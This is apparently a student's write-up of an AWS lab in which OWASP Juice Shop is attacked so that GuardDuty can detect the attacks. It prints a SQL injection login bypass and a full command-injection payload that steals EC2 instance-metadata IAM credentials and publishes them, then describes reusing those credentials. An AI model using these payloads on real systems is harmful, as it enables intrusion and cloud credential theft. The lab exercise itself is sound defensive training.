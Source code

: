 # Threat Detection with GuardDuty

![Image](https://github.com/dev-boris67/AWS-Basics/blob/main/Project%20images/16.png?raw=true).

**Project Link:** [View Project](http://learn.nextwork.org/projects/aws-security-guardduty)

**Author:** Nchindo Boris  
**Email:** nchindoboris37@gmail.com

---

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_v1w2x3y4)

---

## Introducing Today's Project!

### Tools and concepts

The services I used were;
- Amazon GuardDuty
- Amazon CloudFront
- Amazon S3
- AWS CloudFormation
- OWASP Juice Shop

Key concepts I learnt include;
- Deploy a web app using CloudFormation.
- Use SQL injection and arbitrary code execution to expose a web app.
- Steal credentials and sensitive data.
- Detect attacks using GuardDuty.
- Use malware protection to level up my GuardDuty skills.

### Project reflection

This project took me approximately 2 hours to complete

The most challenging part was Deploying the web app with CloudFormation. CloudFormation stack creation kept failing with rollbacks until I challenged the AWS Region and the problem was solved

It was most rewarding to see GuardDuty finding and detecting theats

I did this project today as it is one of the essential projects and goals in getting a cloud career

---

## Project Setup

To set up for this project, I deployed a CloudFormation template that launches a web app. The three main components are;
- Web app infrastructure
- S3 Bucket for storage
- GuardDuty for security monitoring

The web app deployed is called OWASP Juice Shop. To practice my GuardDuty skills, I will hack it to make GuardDuty analyze and picked up on my attacks.

GuardDuty is a threat detection service. In this project, it will help me find potential security risks or attacks in my apps and AWS environment. 

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_n1o2p3q4)

---

## SQL Injection

The first attack I performed on the web app is SQL injection, which means a web vulnerability that happens when an attacker can insert malicious SQL code into an application's database queries. 

SQL injection is a security risk because it can let hackers bypass authentication, steal data, or even change the database structure.

My SQL injection attack involved the ' or 1=1;-- part which makes the query always evaluate to true, which lets you avoid the authentication check.

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_h1i2j3k4)

---

## Command Injection

Next, I used command injection, which is 
#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}


The Juice Shop web app is vulnerable to this because the web app doesn't clean up or check the data it receives before processing it. This is known as sanitization.
Sanitization is a best practice where the app knows to strip out or block any harmful scripts or commands, so only harmless, intended data is processed.

To run command injection, I copied and pasted the javascript code in the username field. Proceeded to select Set Username 

The script will change profile's username to [object Object]

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_t3u4v5w6)

---

## Attack Verification

To verify the attack's success, I opened the following URL  https://d1g5ryl8pjkav.cloudfront.net/assets/public/credentials.json

The credentials page showed me the private key credentials that the web app developer is using to store its details

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_x7y8z9a0)

---

## Using CloudShell for Advanced Attacks

The attack continues in CloudShell, because I am trying to get access to private data using stolen credentials. To do this, I have to use CloudShell to run commands that a hacker would run to steal data inside the AWS environment.

In CloudShell, I used;
- wget to download the credentials.json file from our web app and into the CloudShell environment
- Next, I ran a command using cat to display what's inside a file and
- jq to process JSON data.

I then set up a profile, called stolen to use the stolen credentials extracted from the attack on the web application.

I had to create a new profile because this lets us 'hack into' the AWS environment, and I will have to see whether GuardDuty can pick up on the sneaky things I do as a hacker

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_j9k0l1m2)

---

## GuardDuty's Findings

After performing the attack, GuardDuty reported a finding immediately
Findings are notifications that something suspicious has happened in your AWS environment.

The finding tells you what happened, who did it, and how they did it. This helps you understand the attack and fix the problem.

GuardDuty's finding was called UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.InsideAWS which means;
- UnauthorizedAccess = some someone tried to do something they shouldn’t have the rights to within your AWS environment.

- IAMUser/InstanceCredentialExfiltration is the unauthorized activity that GuardDuty detected. Credentials assigned to an EC2 instance (i.e. web server of your web app) were used in a suspicious way, so it's likely that they were stolen. This data breach is called exfiltration.

- InsideAWS tells us that the unauthorized access happened within AWS, but by a different AWS account to yours. 

Anomaly detection was used because GuardDuty would compare this activity against the instance's typical use of its AWS account credentials, and decide that copying an S3 bucket object is out of the ordinary.

GuardDuty's detailed finding about the unauthorized access, reported that;
- The Resource affected, indicating that the attack used an IAM role to access your juice shop's S3 bucket.

- The Action, indicating that an object (i.e. the important information text file) was retrieved.

- The Location and IP address of the attacker, which would be a location in my AWS Region at the time of using CloudShell.

This information is so helpful for analyzing the source of an attack, who the attacker could've been, whether there are threats to anticipate now based on what they retrieved, and how to prevent similar breaches in the future.

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_v1w2x3y4)

---

## Extra: Malware Protection

For my project extension, I enabled  Malware Protection for S3

Malware is a type of software designed to harm computers.
It can damage computers, steal data, or disrupt operations. GuardDuty helps to protect AWS resources by detecting and preventing you from using malware in your environment.

To test Malware Protection, I uploaded malware into my S3 bucket
The uploaded file won't actually cause damage because It's like a fake virus that helps test if your antivirus software is working properly without actually using a real virus. In our case, we're using the test file to verify whether GuardDuty can detect malware.

Once I uploaded the file, GuardDuty instantly triggered the finding type Object:S3/MaliciousFile  

This verified that Malware Protection in GuardDuty is actively monitoring S3 bucket uploads and is capable of detecting known malware signatures

![Image](http://learn.nextwork.org/soothed_rose_serene_peach/uploads/aws-security-guardduty_sm42x3y4)

---

